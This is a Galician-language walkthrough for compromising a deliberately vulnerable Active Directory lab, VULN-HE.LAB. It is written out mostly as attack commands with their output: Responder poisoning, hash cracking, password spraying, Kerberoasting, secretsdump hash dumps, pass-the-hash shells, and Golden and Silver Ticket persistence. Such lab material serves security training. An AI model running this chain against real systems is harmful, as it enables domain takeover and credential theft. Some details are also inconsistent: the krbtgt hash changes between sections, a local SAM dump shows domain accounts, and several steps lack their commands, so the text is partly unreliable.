



Guía Mestra de Ataque: Laboratorio VULN-HE.LAB
O laboratorio VULN-HE.LAB é moi interesante porque...
- Entorno completo de Active Directory vulnerable
- Windows Server 2019 como Controlador de Dominio
- Captura de credenciais mediante Envelenamento LLMNR/NBT-NS
- AS-REP Roasting contra usuarios sen pre-autenticación
- Kerberoasting contra contas de servizo con SPN
- Password Spraying con contrasinais débiles
- Abuso de SeBackupPrivilege para extraer NTDS.dit e credenciais de Administrador
- Abuso de SeImpersonatePrivilege para escalar privilexios a SYSTEM
- Abuso de ACLs para movemento lateral entre usuarios
- Cadea de ataque desde o acceso inicial ata a obtención de privilexios totais
- Persistencia avanzada con Silver e Golden Ticket (Kerberos)
Escenario

Este documento describe a metodoloxía paso a paso para comprometer o laboratorio VULN-HE.LAB. O obxectivo é demostrar a cadea de ataque completa desde o descoñecemento total ata a obtención de privilexios máximos no sistema.
Esta guía organízase nas 5 primeiras fases dun test de intrusión. Para detalles técnicos profundos de ataques concretos, consultar os Documentos de Ataque Específicos referenciados en cada sección.
Diagrama de ataque

Fase 1 - Recopilación (Ataques Activos)
Obxectivo: Identificar o obxectivo, o sistema operativo e os servizos expostos sen ter credenciais.
1.1. Identificación do Obxectivo (Ataque Activo)
Sabemos que o laboratorio ten IP estática. Verificamos a dispoñibilidade e o Sistema Operativo mediante o TTL.
$ ping -c 1 192.168.56.100
...
64 bytes from 192.168.56.100: icmp_seq=1 ttl=128 time=1.85 ms # TTL=128 ⇒ indica Windows. IP confirmada.
1.2. Mapeo de Servizos - Nmap (Ataque Activo)
Identificamos os portos abertos para confirmar o rol de Controlador de Dominio (DC).
$ nmap -p- --min-rate 5000 -Pn -n 192.168.56.100 -oN all_ports.txt -oX all_ports.xml
$ nmap -p53,88,135,139,389,445,464,593,636,3268,3389,5985 -sCV 192.168.56.100 -oN services.txt -oX services.xml
Visualizamos en navegador a información anterior:
$ xsltproc all_ports.xml -o all_ports.html
$ xsltproc services.xml -o services.html
$ firefox all_ports.xml services.html &
Portos Críticos Detectados:
- 88 (Kerberos): Autenticación do dominio.
- 445 (SMB): Compartición de ficheiros (vulnerable a SMBv1).
- 389/636 (LDAP): Directorio Activo.
- 5985 (WinRM): Administración remota (PowerShell).
1.3. Enumeración de Sesión Nula (Ataque Activo)
Intentamos listar usuarios ou recursos compartidos sen autenticación, pero non o conseguimos. Aínda que si atopamos información de interese como o nome do dominio e o posible sistema operativo da máquina obxectivo.
$ netexec smb 192.168.56.100 -u '' -p '' --shares
...
SMB 192.168.56.100 445 VULN-DC-01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:VULN-DC-01) (domain:VULN-HE.LAB) (signing:False) (SMBv1:True)
SMB 192.168.56.100 445 VULN-DC-01 [-] VULN-HE.LAB\ : STATUS_LOGON_FAILURE
$ enum4linux -U 192.168.56.100
...
[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED
Fase 2 - Análise (Obtención de Credenciais)
Obxectivo: Conseguir un usuario válido para entrar no sistema.
2.1. Envelenamento LLMNR/NBT-NS - Responder (Ataque Pasivo)
DOCUMENTO DE REFERENCIA
O laboratorio ten tráfico de rede simulado.
1. Executar Responder
Administrador.[+] Listening for events...
...
[SMB] NTLMv2-SSP Username : VULN-HE\Administrador
[SMB] NTLMv2-SSP Hash : Administrador::VULN-HE:876b445366110fc3:BB8EE5F6D084D8F42E93B32E8933007E:0101000000000000001B0782A262DC01CE307DE6FE5224CE0000000002000800420059003300350001001E00570049004E002D003700350047005A005700390046004100440042004F0004003400570049004E002D003700350047005A005700390046004100440042004F002E0042005900330035002E004C004F00430041004C000300140042005900330035002E004C004F00430041004C000500140042005900330035002E004C004F00430041004C0007000800001B0782A262DC0106000400020000000800300030000000000000000000000000300000285F7CA42D574196426CBD77710694DE6C4296C003BE13689EA15FD3232F511C0A001000000000000000000000000000000000000900240063006900660073002F005300520056002D004200410043004B00550050002D00300031000000000000000000
hashcat ou john.$ echo Administrador::VULN-HE:876b445366110fc3:BB8EE5F6D084D8F42E93B32E8933007E:0101000000000000001B0782A262DC01CE307DE6FE5224CE0000000002000800420059003300350001001E00570049004E002D0037 00350047005A005700390046004100440042004F0004003400570049004E002D003700350047005A005700390046004100440042004F002E0042005900330035002E004C004F00430041004C000300140042005900330035002E004C004F00430041004C0005001 40042005900330035002E004C004F00430041004C0007000800001B0782A262DC0106000400020000000800300030000000000000000000000000300000285F7CA42D574196426CBD77710694DE6C4296C003BE13689EA15FD3232F511C0A001000000000000000 000000000000000000000900240063006900660073002F005300520056002D004200410043004B00550050002D00300031000000000000000000 > admin.hash
$ hashcat -m 5600 admin.hash rockyou.txt --force
$ hashcat -m 5600 admin.hash rockyou.txt --force --show
$ john --format=netntlmv2 admin.hash --wordlist=rockyou.txt
Contrasinal administrador do dominio conseguida
Mediante o anterior procedemento xa conseguimos o contrasinal do administrador do dominio, polo cal poderiamos acceder vía remota mediante winrm e administrar o dominio.
$ evil-winrm -i 192.168.56.100 -u 'administrador' -p 'abc123.'
...
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
vuln-he\administrador
*Evil-WinRM* PS C:\Users\Administrador\Documents> net user administrador
Nombre de usuario Administrador
...
Cuenta activa SÍ
La cuenta expira Nunca
...
Miembros del grupo local *Administradores
Miembros del grupo global *Usuarios del dominio
*Administradores de es
*Admins. del dominio
*Administradores de em
*Propietarios del crea
Se ha completado el comando correctamente.
2.2. Kerberos - AS-REP Roasting (Ataque Activo)
Buscamos usuarios mal configurados (sen pre-autenticación Kerberos). Non require contrasinal previo, só unha lista de usuarios (ou forza bruta de nomes).
2.2.1. Preparar wordlists
Descargar wordlists de usuarios comúns
$ wget https://raw.githubusercontent.com/attackdebris/kerberos_enum_userlists/master/A-Z.Surnames.txt
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
Xerar wordlist propio
$ cewl https://gl.wikipedia.org/wiki/Lista_de_nomes_masculinos_en_galego -w nomes.txt --lowercase -d 0
$ cat > sufixos.txt <<EOF
.a
.b
.c
.d
.e
.f
.g
.h
.i
.l
.m
.n
.ñ
.o
.p
.q
.r
.s
.t
.u
.v
.x
.z
EOF
$ hashcat -a 1 --stdout nomes.txt sufixos.txt | tee names.surnames.txt
$ impacket-GetNPUsers VULN-HE.LAB/ -usersfile names.surnames.txt -dc-ip 192.168.56.100 -format hashcat | grep -vi UNKNOWN
...
[-] User maría.g doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User brais.t doesn't have UF_DONT_REQUIRE_PREAUTH set
De interese
Aínda que non se atopen usuarios co permiso configurado este ataque pode informarmos da existencia de usuarios no sistema. Neste caso: maría.g e brais.t
Deste xeito poderiamos proceder ao apartado 3.1. Ataque de dicionario
De momento non somos quen, co noso wordlist xerado, de atopar un usuario con ese permiso activado. A idea sería:
- Atopar Vítima: nopreauth.user.
- Realizar Acción unha vez atopado o usuario vítima: Crackear o hash obtido.
Nota: Ver ANALISE_USUARIOS para saber máis sobre este usuario e se este usuario é un "camiño sen saída" ou útil.
Fase 3 - Explotación (Acceso Inicial)
Obxectivo: Acceder ao sistema.
3.1. Ataque de Dicionario - Password Spraying (Ataque Activo)
Se os métodos anteriores fallan ou queremos máis usuarios, probamos contrasinais débiles contra a lista de usuarios.
$ echo 'maría.g\nbrais.t' > found-users.txt
$ netexec smb 192.168.56.100 -u found-users.txt -p rockyou.txt --ignore-pw-decoding --continue-on-success | grep -vi failure
...
SMB 192.168.56.100 445 VULN-DC-01 [+] VULN-HE.LAB\brais.t:iloveyou
SMB 192.168.56.100 445 VULN-DC-01 [+] VULN-HE.LAB\maría.g:dragon
- Vítimas potenciais:
brais.t(iloveyou),maria.g(dragon).
3.2. Kerberos - Kerberoasting (Ataque Activo)
Unha vez temos un usuario (ex: brais.t), buscamos servizos vulnerables. Require un usuario válido no dominio.
$ impacket-GetUserSPNs VULN-HE.LAB/brais.t:iloveyou -dc-ip 192.168.56.100 -request
...
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
--------------------------------------- ------- -------- -------------------------- --------- ----------
MSSQLSvc/VULN-HE-DC-01.vuln-he.lab:1433 svc_sql 2025-11-25 06:32:07.222141 <never>
[-] CCache file is not found. Skipping...
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
svc_sql (MSSQL Service).- Acción: Crackear o Ticket TGS.
Información sobre Kerberos Clock Skew
Que é Clock Skew?
Clock Skew refirese á diferenza de tempo entre o cliente e o servidor Kerberos (DC).
Límite por defecto:
- Máximo 5 minutos de diferenza
- Configurable en
MaxClockSkew(Group Policy)
Por que é importante?
- Prevención de replay attacks
- Os tickets Kerberos teñen timestamps
- Se a hora é moi diferente, os tickets son invalidados
Erro común:
Solución:
Debemos revisar a sincronización temporal co servidor de dominio para poder obter os tickets kerberos. Non debe existir un desfase de +-5minutos
Instalar ntpdate para sincronización horaria
$ sudo apt update && sudo apt -y install ntpsec-ntpdate
$ sudo ntpdate -u 192.168.56.100
$ impacket-GetUserSPNs VULN-HE.LAB/brais.t:iloveyou -dc-ip 192.168.56.100 -request
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
--------------------------------------- ------- -------- -------------------------- --------- ----------
MSSQLSvc/VULN-HE-DC-01.vuln-he.lab:1433 svc_sql 2025-11-25 06:32:07.222141 <never>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc_sql$VULN-HE.LAB$VULN-HE.LAB/svc_sql*$4924e632ed0a9eed48b61576ba38298c$6860a050418c78cc5c5a6b1e3a654595f124d048f01a1281c2de4aea8953d99bc42ff8b8e42401b3367061ef955aa4120a62b74052af04357e5a1031224817fa5fe6f1de89979a7336feb7905ddb65ce235a3f9610144d122a75d7989c8731873330f7bbd861048560860986a87c2fc3d843926c9677e380cd4720eb5d5842f27cc368137d25ac081796df07bfddd7ba58e7b82f4f287cf4a9dbd5867ff002fd18ae09f57be5766cc97c24df08332cf2d91d3a22570af414cfb0159dc4af0c1302402c4bb1bc5c042768e96c1d8a5dac4ebfe2450b81c6648ae7fcb65d274c7281d3a05e6dad0ac0dcd35210c77c3a4b316c4fe2009056e24b3fd8d5c4513fb03fc18a16d0451f6dc05a32e1d28015e5dd26ecd44315c3a4168e22f31a3c7508c9116f71094196e8c8776e7891bb67eb6ae4c405f27875a9151be806b2229b01fb813dce4152db5a8e5672407b8abab0afb79c503161877ddf204d91dc39875589ae27da9fc636ac0929c232617f8d97536ba847c7c364731ab3fa6b1b184a8f6da3d146a53c1ce7944146ac8ca78619e03b2f948c0684a3d528ed8b33dc13c9b8e6e2e8bd7ae94d48e02445e36ec7ec141d201264edfffd39f09bede88de00254caa4499e64d232d299e9557d7510baf87f87959fe91a1567fc964dd5c05c5a240d40d28d57d1becb9c1ae07e3adcb1f57560a187d373c9d3b5c013dbf617c01cbfedbc324934347d37ecaee095ef2fa769d7300d65bafb59fb1118704baa21cbb7ad890dd5ace2be9d5c2a0b33348f3417f19c816717f779a9fb92046af1a2973b05baef7c24e8f8bca5e09dc8f41bf94d61931c1ed96e7a1e7727a8fdda237c00d1457ed85bd326c360bed25e8762581feccb5b46263450aee37467920c67546d23f63dc36e8545ea9da9fd0cb0ce68c5010911304c1914ed4e8a4b2f45e3d0cbf1126f4a38b743666fab1f4616f4d33a1f287444ce53ad88111e7ec3f44b95857c158b8e56656971dd788f4b5d3b71ceb2bf1cc64197225f91b9d138c8d2715fed5c170b831e57e9c0591d53de6557b8f0ec2863173e9ec7b42ed68de1384d0633a5f5da99bac157080df6693f2922a2d313cac8356d0d9a1bb2cb6d945a35217e987898a0b303e74ee5a904ccd43326eb845cdb1a3c65420056d425278c5efe75e777bde3238f962f8c7d79bba0d53434508a2cff0a0e35125dda78ca94012e13af559339c54726e7024861915893c504aa650a802026e00e3941cdbc240a60f611dec593751c3daae30fbcd439cc58e977d86d4e566b8d86d37135f480d7c03db98f1817d05808b7ad648ccf473fd6e963281d2bc2788352323cd1d3a5fe85e6bed2fdae5c57d30ff2e9437348a9986f23686c52b8544870c5378633657e7f33be799857cace58c664ac7cd30c157a159041f1126fddf511f8bde140a165daea22051e8f2501049e
Crackear o hash:
$ cat asrep_hash.txt
$krb5tgs$23$*svc_sql$VULN-HE.LAB$VULN-HE.LAB/svc_sql*$4924e632ed0a9eed48b61576ba38298c$6860a050418c78cc5c5a6b1e3a654595f124d048f01a1281c2de4aea8953d99bc42ff8b8e42401b3367061ef955aa4120a62b74052af04357e5a1031224817fa5fe6f1de89979a7336feb7905ddb65ce235a3f9610144d122a75d7989c8731873330f7bbd861048560860986a87c2fc3d843926c9677e380cd4720eb5d5842f27cc368137d25ac081796df07bfddd7ba58e7b82f4f287cf4a9dbd5867ff002fd18ae09f57be5766cc97c24df08332cf2d91d3a22570af414cfb0159dc4af0c1302402c4bb1bc5c042768e96c1d8a5dac4ebfe2450b81c6648ae7fcb65d274c7281d3a05e6dad0ac0dcd35210c77c3a4b316c4fe2009056e24b3fd8d5c4513fb03fc18a16d0451f6dc05a32e1d28015e5dd26ecd44315c3a4168e22f31a3c7508c9116f71094196e8c8776e7891bb67eb6ae4c405f27875a9151be806b2229b01fb813dce4152db5a8e5672407b8abab0afb79c503161877ddf204d91dc39875589ae27da9fc636ac0929c232617f8d97536ba847c7c364731ab3fa6b1b184a8f6da3d146a53c1ce7944146ac8ca78619e03b2f948c0684a3d528ed8b33dc13c9b8e6e2e8bd7ae94d48e02445e36ec7ec141d201264edfffd39f09bede88de00254caa4499e64d232d299e9557d7510baf87f87959fe91a1567fc964dd5c05c5a240d40d28d57d1becb9c1ae07e3adcb1f57560a187d373c9d3b5c013dbf617c01cbfedbc324934347d37ecaee095ef2fa769d7300d65bafb59fb1118704baa21cbb7ad890dd5ace2be9d5c2a0b33348f3417f19c816717f779a9fb92046af1a2973b05baef7c24e8f8bca5e09dc8f41bf94d61931c1ed96e7a1e7727a8fdda237c00d1457ed85bd326c360bed25e8762581feccb5b46263450aee37467920c67546d23f63dc36e8545ea9da9fd0cb0ce68c5010911304c1914ed4e8a4b2f45e3d0cbf1126f4a38b743666fab1f4616f4d33a1f287444ce53ad88111e7ec3f44b95857c158b8e56656971dd788f4b5d3b71ceb2bf1cc64197225f91b9d138c8d2715fed5c170b831e57e9c0591d53de6557b8f0ec2863173e9ec7b42ed68de1384d0633a5f5da99bac157080df6693f2922a2d313cac8356d0d9a1bb2cb6d945a35217e987898a0b303e74ee5a904ccd43326eb845cdb1a3c65420056d425278c5efe75e777bde3238f962f8c7d79bba0d53434508a2cff0a0e35125dda78ca94012e13af559339c54726e7024861915893c504aa650a802026e00e3941cdbc240a60f611dec593751c3daae30fbcd439cc58e977d86d4e566b8d86d37135f480d7c03db98f1817d05808b7ad648ccf473fd6e963281d2bc2788352323cd1d3a5fe85e6bed2fdae5c57d30ff2e9437348a9986f23686c52b8544870c5378633657e7f33be799857cace58c664ac7cd30c157a159041f1126fddf511f8bde140a165daea22051e8f2501049e
$ hashcat -m 13100 asrep_hash.txt rockyou.txt --force
$ john --wordlist=rockyou.txt asrep_hash.txt
Resultado:
Non atopa contrasinal
Probar co dicionario kaonashi https://github.com/kaonashi-passwords/Kaonashi
Resultado:
Non atopa contrasinal
Conclusión: O contrasinal non se atopa nun dicionario coñecido
3.3. Acceso Remoto - Shell (Ataque Activo)
Con credenciais válidas, conectamos para executar comandos.
- Usuario
brais.t: Pertence a Remote Management Users.
-
Usuario
maria.g: Pertence a Remote Desktop Users.- Usar cliente RDP (Remmina/xfreerdp).
Problema acceso mediante RDP usuario non administrador

Como un usuario sen permisos de administrador por defecto non ten acceso por Terminal Server para facer login no propio servidor de dominio. -
Usuario
maria.g: Pertence a Remote Management Users.
Fase 4 - Post-Explotación (Escalada de Privilexios)
Obxectivo: Elevar privilexios desde un usuario estándar a Domain Admin ou SYSTEM.
4.1. Escalada de Privilexios - Abuso de SeBackupPrivilege (Ataque Activo)
DOCUMENTO DE REFERENCIA
Vía: De brais.t a Domain Admin.
-
O usuario
brais.tten o privilexio SeBackupPrivilege.
*Evil-WinRM* PS C:\Users\brais.t\Documents> whoami /priv INFORMACIÓN DE PRIVILEGIOS -------------------------- Nombre de privilegio Descripción Estado ============================= =================================================== ========== SeMachineAccountPrivilege Agregar estaciones de trabajo al dominio Habilitada SeBackupPrivilege Hacer copias de seguridad de archivos y directorios Habilitada SeChangeNotifyPrivilege Omitir comprobación de recorrido Habilitada SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada *Evil-WinRM* PS C:\Users\brais.t\Documents> -
Usar este privilexio para crear unha copia de seguridade ("Shadow Copy") do disco C:.
Usarreg savepara crear copias dos ficheiros:
*Evil-WinRM* PS C:\Users\brais.t\Documents> reg save hklm\system system.hive
La operación se completó correctamente.
*Evil-WinRM* PS C:\Users\brais.t\Documents> reg save hklm\sam sam.hive
La operación se completó correctamente.
- Descargar copias de SAM e SYSTEM
*Evil-WinRM* PS C:\Users\brais.t\Documents> download sam.hive
*Evil-WinRM* PS C:\Users\brais.t\Documents> download system.hive
*Evil-WinRM* PS C:\Users\brais.t\Documents> exit
- Extraer localmente os hashes (incluído o do Administrador) usando
impacket-secretsdump.
$ ls
sam.hive system.hive
$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
...
[*] Target system bootKey: 0x07b8b42127029c003d5dba4aeedffc70
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:3ec585243c919f4217175e1918e07780:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7068c73b73f9f6f0b66e1ef9b8ec4fed:::
brais.t:1103:aad3b435b51404eeaad3b435b51404ee:b963c57010f218edc2cc3c229b5e4d0f:::
maria.g:1104:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
nopreauth.user:1105:aad3b435b51404eeaad3b435b51404ee:354bb5eb5613c54ea475a109e8594c6a:::
svc_sql:1106:aad3b435b51404eeaad3b435b51404ee:ad2896ecfb9b443720bab09bb020f852:::
helpdesk.user:1108:aad3b435b51404eeaad3b435b51404ee:02718f5e04ebf11c051a4cf46435d37d:::
VULN-DC-01$:1000:aad3b435b51404eeaad3b435b51404ee:662f7f4057959cdaa00eb02da7334b3f:::
PC-CLIENT01$:1109:aad3b435b51404eeaad3b435b51404ee:688b98841256284e0fd7d0cee6e0d7ed:::
[*] Cleaning up...
Hash NTLM de Administrador:
Hash NTLM: 3ec585243c919f4217175e1918e07780
Acceder como Administrador ou NT AUTHORITY\SYSTEM mediante Pass-the-Hash
OPCIÓN A: Pass-the-Hash con Evil-WinRM
$ evil-winrm -i 192.168.56.100 -u administrador -H '3ec585243c919f4217175e1918e07780'
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
vuln-he\administrador
$ impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:3ec585243c919f4217175e1918e07780 administrador@192.168.56.100
...
C:\>whoami
vuln-he\administrador
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:3ec585243c919f4217175e1918e07780 administrador@192.168.56.100
...
C:\Windows\system32>
nt authority\system
Mimikatz
Dende SYSTEM, facer dump de LSASS con Mimikatz para obter credenciais en memoria.
4.2. Escalada de Privilexios - A vía Potato (Ataque Activo)
DOCUMENTO DE REFERENCIA
Vía: De maria.g a SYSTEM.
-
O usuario
maria.gten o privilexio SeImpersonatePrivilege.
*Evil-WinRM* PS C:\Users\maria.g\Documents> whoami /priv INFORMACIÓN DE PRIVILEGIOS -------------------------- Nombre de privilegio Descripción Estado ============================= ============================================ ========== SeMachineAccountPrivilege Agregar estaciones de trabajo al dominio Habilitada SeChangeNotifyPrivilege Omitir comprobación de recorrido Habilitada SeImpersonatePrivilege Suplantar a un cliente tras la autenticación Habilitada SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada -
Subir ferramenta SigmaPotato.exe.
-
Executar SigmaPotato para cambiar contrasinal de Administrador
-
Acceder como
Administrador
4.3. Movemento Lateral por ACLs (Ataque Activo)
DOCUMENTO DE REFERENCIA
Vía: De helpdesk.user a maria.g.
Só aplicable se comprometemos a helpdesk.user previamente (ex: tras dump completo de hashes).
- Detectar mediante BloodHound que o grupo HelpDesk ten
GenericAllsobremaria.g. - Usar
rpcclientdesde Kali para cambiar remotamente o contrasinal de María sen necesidade de consola:
- Acceder como María mediante WinRM:
- Executar a Opción B (Potato) desde a sesión de María para escalar a SYSTEM.
Fase 5 — Persistencia (Kerberos Avanzado)
Obxectivo: Manter acceso ao dominio sen depender de contrasinais nin de recomprometer sistemas.
Esta fase representa o peor escenario posible nun Active Directory comprometido.
5.1 Silver Ticket — Persistencia por Servizo
DOCUMENTO DE REFERENCIA
Vía: Desde Domain Admin ou usuario con acceso aos hashes.
Conta crítica: svc_sql (Hash NTLM: ad2896ecfb9b443720bab09bb020f852)
Servizo obxectivo: MSSQL (SPN: MSSQLSvc/VULN-DC-01.vuln-he.lab:1433)
Procedemento Resumido:
- Obter o hash NTLM de
svc_sql: - Vía SeBackupPrivilege (brais.t): Dump de SAM/NTDS
- Vía DCSync (Administrador):
impacket-secretsdump -
Vía Kerberoasting (se se crackea)
-
Obter o SID do dominio:
-
Sincronizar hora co DC:
-
Forxar Silver Ticket:
-
Usar o ticket para acceder a SQL Server:
-
Activar xp_cmdshell e escalar a SYSTEM:
-
Explotar SeImpersonatePrivilege con SigmaPotato:
Resultado:
- Acceso persistente a MSSQL durante 10 anos
- Execución remota como svc_sql
- Escalada a NT AUTHORITY\SYSTEM
- Control total do dominio
Invalidación: Cambiar contrasinal de svc_sql
5.2 Golden Ticket — Persistencia Total de Dominio
DOCUMENTO DE REFERENCIA
Vía: Desde Domain Admin ou usuario con privilexios de replicación (DCSync).
Conta crítica: krbtgt (Hash NTLM: f8d660354307503cae5a4a735d110da0)
Procedemento Resumido:
- Obter o hash NTLM de
krbtgt: - Vía SeBackupPrivilege (brais.t): Dump de NTDS.dit
-
Vía DCSync (Administrador):
-
Obter o SID do dominio:
-
Sincronizar hora co DC:
-
Forxar Golden Ticket:
-
Usar o ticket para acceso total ao dominio:
$ export KRB5CCNAME=Administrador.ccache $ echo '192.168.56.100 VULN-DC-01.vuln-he.lab VULN-HE.LAB' | sudo tee -a /etc/hosts $ sudo ntpdate -u 192.168.56.100 # Opción A: PSExec (Shell como SYSTEM) $ impacket-psexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab # Opción B: WMIExec $ impacket-wmiexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab # Opción C: SMBExec $ impacket-smbexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab # Opción D: SMBClient (recursos compartidos) $ impacket-smbclient -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab # Opción E: SQL Server $ impacket-mssqlclient -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
Resultado:
- Acceso total ao dominio durante 10 anos
- Acceso a calquera recurso e servizo
- Non require contacto co KDC
- Practicamente indetectable
Invalidación: Resetar contrasinal de krbtgt DÚAS veces consecutivas
Diferenza clave Golden vs Silver
| Característica | Golden Ticket | Silver Ticket |
|---|---|---|
| Conta requerida | krbtgt |
Conta de servizo (ex: svc_sql) |
| Ámbito | Todo o dominio | Un servizo específico |
| Ticket forxado | TGT (Ticket Granting Ticket) | TGS (Ticket Granting Service) |
| Acceso | Calquera recurso do dominio | Só o servizo especificado |
| Validez típica | 10 anos | 10 anos |
| Invalidación | Resetar krbtgt dúas veces |
Cambiar contrasinal da conta de servizo |
CONCLUSIÓN
Parabéns! Completaches as fases iniciais e de escalada no laboratorio VULN-HE.LAB.
Lograches:
1. Recoñecer unha rede hostil (Fase 1).
2. Obter acceso inicial mediante vulnerabilidades comúns (LLMNR, AS-REP e Contrasinais débiles) (Fase 2 e 3).
3. Escalar privilexios a Administrador ou SYSTEM abusando de permisos mal configurados (SeBackup, SeImpersonate) (Fase 4).
4. Persistencia avanzada en Kerberos (Silver / Golden Ticket) (Fase 5).